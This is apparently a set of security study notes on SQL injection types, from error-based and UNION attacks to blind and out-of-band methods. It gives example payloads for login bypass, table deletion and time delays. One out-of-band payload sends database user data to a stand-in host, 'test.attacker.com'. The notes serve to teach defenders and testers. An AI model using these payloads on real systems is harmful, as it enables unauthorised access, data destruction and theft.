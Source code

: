 # SQL injection types

- Types include
  - [In-band SQL injection](#in-band-sql-injection)
  - [Blind SQL injection](#blind-sql-injection)
  - [Out-of-band SQL injection](#out-of-band-sql-injection)
- Other classifications sometimes include
  - **Database management system-specific SQL injection**
    - Using specific SQL statements to certain database engine.
  - **Compounded SQL injection**
    - Combining SQL injection with other web applciation attacks such as • insufficient authentication • DDoS attacks • DNS hijacking • XSS.
    - E.g. DDoSing through `http://cloudarchitecture.io/azure?id=2 and WAITFOR DELAY '0:0:50'`
  - **Second-order SQL injection**
    - When user-supplied data is stored by the application and later incorporated into SQL queries in an unsafe way.
    - E.g. during login user name and password is retrieved as `WHERE username="$username" and password="$password"`, one could then set a password as `"); drop table users;` to delete the table and it will only executed during user login.

## In-band SQL injection

- Also known as • **classic SQL injection** • **in-band SQLi** • **classic SQLi**.
- Attacker uses one channel to inject malicious queries and retrieve results.

### Error-based SQL injection

- Causing database to throw errors and in such a way to identify the vulnerabilities
- One of the most common injections
- Examples
  - Through parameter tampering in GET/POST requests
    - E.g. adding `′` in the end: `http://testphp.vulnweb.com/listproducts.php?cat=1′`
      - Shows error: `Error: Check the manual that corresponds to your MySQL server version. Invalid syntax "' at line 1 Warning: mysql_fetch_array() expects parameter 1 to be resource, boolean given in /hj/var/www/listproducts.php on line 74`
      - Reveals file names, database type etc.
    - Can use e.g. [Burp Suite](./../05-vulnerabilities/vulnerability-analysis.md#burp-suite)
  - Converting anything to integer: `or 1=convert(int, (select * from tablename))`
    - `Syntax error converting the nvarchar value '<sql execution result>'`

### System stored procedure

- **Stored procedure**: Precompiled function-like SQL statements supported by many DBMS.
- Injecting malicious queries into stored procedures
- E.g. `@vname` is vulnerable to injection in following procedure:

  ```sql
    CREATE PROCEDURE getDescription
      @vname VARCHAR(50)
    AS
      EXEC('SELECT description FROM products WHERE name = '''+@vname+ '''')
    RETURN
  ```

### Illegal/Logically incorrect query

- Goal is to gather information about the type and structure of the back-end database.
- Considered as a preliminary step for further attacks.
- Attacker takes advantage of error messages sent by the database on incorrect queries.
- Often exposes the names of tables and columns.
- E.g. `SELECT*FROM table_nameWHERE id=@id"` (missing whitespaces) would cause incorrect syntax error.

### UNION SQL injection

- 📝 Using the `UNION` operator to inject a malicious query.
- Allows appending results to the original query.
- E.g. `SELECT a, b FROM table1 UNION SELECT c, d FROM table2`

### Tautology

- Manipulating the `WHERE` operator in the query to always have a `true` value
- 📝 Utilizes `OR` operator e.g. by appending `OR 1 = 1`
- E.g. `select * from user_details where userid = 'abcd' and password = 'anything' or 'x'='x'`
- 🤗 In logic, a tautology is a formula which is true in every possible interpretation
  - E.g. either it will rain tomorrow, or it won't rain

### Comment SQL injection

#### End-of line comment

- Also known as • **terminating query** • **single-line comment** • ***end-of-line comment** • **end of line comment**.
- 📝 Usually done by adding `--` at the end of the injected query
  - `--` (two dashes): comment out the rest so SQL engine ignores the rest of the query
- E.g. by appending `' or 1 = 1 --` in the end of the query would ignore the password check
  - `select * from users where name='injection starts here' or 1=1 --' AND password='pwd'`
  - Basically tells the server if 1 = 1 (always true) to allow the login.
  - Double dash (--) tells the server to ignore the rest of the query

#### Inline comments

- Using C-style comments to eliminate a part of the query.
- Requires attacker having a good idea of how the input is integrated.
- E.g.
  - Query is

    ```sql
      $sql = "INSERT INTO members (username, isadmin, password) VALUES ('".$username."', 0, '".$password."')"
    ```

  - Attackers input include `username` and `password`
  - Attacker enters following values to avoid password check:
    - `attacker', 1, /*`
    - `*/'pwd`
  - It then generate:

    ```sql
      INSERT INTO members (username, isadmin, password) VALUES ('attacker', 1, /*', 0, '*/'pwd')
    ```

### Piggyback query

- Also known as • **piggybacked query** • **piggy-backed query** • **statement injection**
- Appending malicious query to the end of the original one.
- Common way is to append the query delimiter (`;`)
  - E.g. `normal SQL statement + ";" + INSERT (or UPDATE, DELETE, DROP) <rest of injected query>`

## Blind SQL injection

- Also known as • **blind SQLi** • **inferential SQL injection** • **inferential SQLi** • **inference SQL injection** • **inference SQLi**
- Attacker is unable to see the direct results of the injected queries
  - instead attacker observes web applications response and behavior.
- As database does not output data to the web page, an attacker is forced to steal data by asking the database a series of true or false questions.
- Allows remote database fingerprinting to e.g. know which type of database is in use
- Can be automated using e.g.
  - [Absinthe :: Automated Blind SQL Injection](https://github.com/cameronhotchkies/Absinthe)
  - [SQLBrute](https://securiteam.com/tools/5IP0L20I0E), multi threaded blind SQL injection bruteforcer in Python
  - [bsqlbf](https://code.google.com/archive/p/bsqlbf-v2/), a blind SQL injection tool in Perl

### Boolean-based blind SQL

- Also called **content-based blind SQL**
- Attacker forms queries to return `true` or `false`
- Depends on changing HTTP results depending on SQL results for each condition.
- Allows enumerating the database character by character (slow)
- E.g.
  - URL: `http://newspaper.com/items.php?id=2`
  - Query in back-end: `SELECT title, description, body FROM items WHERE ID = 2`
  - Attacker sends `http://newspaper.com/items.php?id=2 and 1=2` to make it return `false`
  - Attacker inspects if application shows a page or with which status code

### Time-based SQL injection

- Also called • **time delay SQL injection** • **double blind SQL injection** • **2blind SQL injection**
- 📝 Using time delay to evaluate the result (true or false) of the malicious query
- Allows for testing of existing vulnerabilities.
- Uses commands like `waitfor`, `sleep`, `benchmark`
  - Helps with database fingerprinting as MySQL, MSSQL, and Oracle have different functions to get current time.
  - E.g. `http://www.site.com/vulnerable.php?id=1' waitfor delay '00:00:10'--`
- Allows enumerating each character (very slow)
  - E.g. if database name starts with A, wait 10 seconds
  - Can use character comparison, regex or `LIKE` in Microsoft SQL.
- Time consuming, but there are automated tools such as [`sqlmap`](http://sqlmap.org/)

#### Heavy query

- Injecting queries that takes time to test
- Useful when time functions such as `waitfor` are disabled by administrator
- E.g. `SELECT count(*) FROM information_schema.columns A, information_schema.columns B, information_schema.columns C`
  - Can inject something like: `1 AND 1>(SELECT count(*) FROM information_schema.columns A, information_schema.columns B, information_schema.columns C)`

## Out-of-band SQL injection

- Also known as • **OOB injection** • **OOB SQLi**
- Exhilarate data through outbound channel
  - E.g. e-mail sending or file writing/reading functionalities
- Difficult as it depends on target having
  - Supported databases that can initiate outbound DNS or HTTP requests
  - Lack of input validation
  - Network access to the database server
  - Privileges execute the necessary function
- E.g. `||UTL_HTTP.request('http://test.attacker.com/'||(SELECT user FROM users))`

